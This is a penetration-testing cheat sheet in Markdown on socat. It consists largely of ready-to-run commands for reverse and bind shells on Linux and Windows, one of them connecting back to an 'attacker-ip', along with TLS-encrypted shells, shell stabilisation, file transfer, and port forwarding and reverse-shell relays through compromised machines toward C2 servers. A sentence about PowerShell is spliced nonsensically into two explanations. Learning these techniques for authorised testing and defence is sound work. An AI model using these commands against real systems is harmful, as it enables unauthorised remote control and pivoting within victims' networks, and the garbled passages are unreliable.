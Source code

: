 # Socat 

[Socat](https://linux.die.net/man/1/socat) is a command-line utility that establishes two bidirectional byte streams and transfers data between them. For penetration testing, it is similar to Netcat but has additional useful features. 

`socat` requires:
1. "-" to transfer data between STDIO and remote host
1. protocol name
1. Any protocols, options, port ARE colon delimited

```bash
socat - TCP4:<remoteIP>:PORT

socat TCP4-LISTEN:8080 STDOUT

socat TCP4:ip:port EXEC:/bin/bash
```

#### Reverse Shells

Start a listener:
```bash
socat TCP-L:<PORT> -                                 # connect regardless with '-'
socat -d -d TCP-LISTEN:8080 STDOUT                   # -d -d = increase verbosity of output#
socat TCP4-LISTEN:8080,fork file:filename.txt,create 
# create specifies that a new file will be created.
# fork creates a child process once connection is made to the listener(multiple connections allowed)
```

Connect to reverse Shell:
```powershell
# Windows!
.\socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
.\socat.exe TCP:<IP>:<Port> EXEC:cmd.exe,pty,stderr,setsid,sigint,sane
```
On Linux
```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

#### Bind Shells

Start a bind listener
```bash
socat TCP-L:<PORT> EXEC:"bash -li"
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
Connect to target regardless:
```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

#### Shell stabilisation
```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
[CTRL+Z]
stty raw -echo; fg 
```

Fixing terminal size
```bash
stty size
stty -rows 48 -columns 120
```

#### File transfers
```bash
socat TCP4-LISTEN:$PORT,fork file:$filename
```

#### Special upload precompiled socat binary 
```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
1. `pty`, allocates a pseudo-terminal on the target -- part of the stabilisation, knowing how to properly use PowerShell to achieve our goals is extremely important. Refer stabilisation process
1. `stderr`, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
1. `sigint`, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
1. `setsid`, creates the process in a new session
1. `sane`, stabilises the terminal, attempting to "normalise" it

Similarly on Windows:
```batch
.\socat.exe TCP-LISTEN:443,fork EXEC:cmd.exe,pty,stderr,setsid,sigint,sane
```

### Encrypted Shells
 
Generate a Certificate
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt

# req indicates that this is a certificate signing request. 
# -x509 specifies that we want an X.509 certificate
# -newkey rsa:4096 creates a new certificate request and a new private key using  RSA, with the key size(Optional sizes!) being 4096 bits. 
# -days 365 shows that the validity of our certificate will be one year
# -subj sets data, such as organization and country, via the command-line.
# -nodes simplifies our command and does not encrypt the private key
# -keyout `PRIVATE\_KEY` specifies the filename where we want toation, knowing how to properly use PowerShell to achieve our goals is extremely important. Refer to save our private key
# -out CERTIFICATE specifies the filename to which we want to write the certificate request
```
Merge the two files:
```bash
cat shell.key shell.crt > shell.pem
```
Setup reverse shell listener 
```bash
# Linux
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 - # verify=0 means dont bother trying to validate cert 
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0,fork EXEC:/bin/bash
```
If on windows:
```powershell
.\socat.exe OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:cmd.exe,pty,std
err,setsid,sigint,sane
```

The same for bind shell
```powershell
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash # For windows after:" ,verify=0 EXEC='cmd.exe' "
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
`socat` listener and connection on windows
```bash
socat.exe -d OPENSSL-LISTEN:5678,cert=<cert>, verify=0 STDOUT, bind=127.0.0.1
socat.exe OPENSSL:127.0.0.1:5678, verify=0 EXEC=’cmd.exe
```

#### Less Common Cool Usages
```bash
# Connect to a http server
socat TCP4:domain.com:80 -
# Connect to a https server
socat TCP4:domain.com:443 -

# Output hexdump from a port
socat -x tcp-listen:$port,fork -

# (sleep is necessary to prevent socat closing socket before data received)
(echo -e "GET / HTTP/1.1\r\nHost: butzel.info\r\n\r" && sleep 1) \ | socat TCP4:domain.com:80 -

# http to https 'Proxy' (for an webserver without TLS-Support)
socat OPENSSL-LISTEN:443,reuseaddr,pf=ip4,fork,cert=server.pem,cafile=client.crt,verify=0 TCP4-CONNECT:127.0.0.1:80

# udp to tcp
socat -u udp-recvfrom:1234,fork tcp:localhost:4321

# TOR-forwarding (needs tor-daemon on port 9050 running)
socat tcp4-listen:8080,reuseaddr,fork socks4A:127.0.0.1:t0rhidd3ns3rvice.onion:80,socksport=9050
#https://superuser.com/questions/1302861/how-i-can-make-port-forwarding-using-tor#1302869
```

Socat as a Proxy
```bash
socat TCP-LISTEN:6969,fork,reuseaddr,bind=127.0.0.1 TCP:remote_ip:remote_port
```

From [fsodogandji](https://gist.github.com/fsodogandji/8521333)
```bash
# Tunnel from a proxy
socat TCP4-L:10005,reuseaddr,fork,bind=127.0.1.1 PROXY:127.0.0.1,proxyport=10005
# Installs a simple TCP port forwarder. With TCP4-LISTEN it listens on local port "www" until a connection comes in, accepts it,|
#The service running on 172.16.245.11:5432 is forward to 172.16.251.139:5666|
socat -d -d -lmlocal2 TCP4-LISTEN:5666,bind=172.16.251.139,su=nobody,fork,reuseaddr TCP4:172.16.245.11:5432
```


## Port Redirection and Tunnelling with `socat`

[[Port-Redirection-And-Tunnelling]] with `socat`

Port Forwarding
```bash
# Use to kill and manages jobs
jobs
kill $jobID

# Not stealthy will open a port on a compromised machine!
# Create a listener to port forward traffic from $targetToForwardAddr:$ForwardedPort
socat tcp-l:33060,fork,reuseaddr tcp:$targetToForwardAddr:$ForwardedPort &

# Stealthier
# Create a local port relay on attacking machine
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
# Reverse port forward from a compormised server back to  
socat tcp:$AttackingMachine:8001 tcp:$targetToForwardAddr:$ForwardedPort,fork &

```

Reverse Shell Relay 
```bash
# RemoteBox - create a listener that connects back to to the address of another box
socat tcp-l:8000 tcp:$LocalBoxAddr:443 &
# LocalBox has listen on port 443

# For port reuse from some proxy to another listening C2/Server/etc 
socat TCP-LISTEN:8000,reuseaddr,fork TCP:<destination_ip>:<destination_port>

nohup socat TCP-LISTEN:8000,reuseaddr,fork TCP:10.10.10.10:8443 &

# Use a specific interface IP with range=
nohup socat TCP-LISTEN:10000,reuseaddr,fork,range=172.17.0.1/24 TCP:10.10.10.10:6969 &
```


## References

[jackadamson](https://jackadamson.github.io/cheatsheets/socat/)
[gothburz](https://github.com/gothburz/OSCP-PWK2.0/blob/master/practical-tools/socat-shell-cheatsheet.md)
[cheat](https://github.com/cheat/cheatsheets/blob/master/socat0)
[THM Wreath Room](https://tryhackme.com/room/wreath)
[fsodogandji](https://gist.github.com/fsodogandji/8521333)
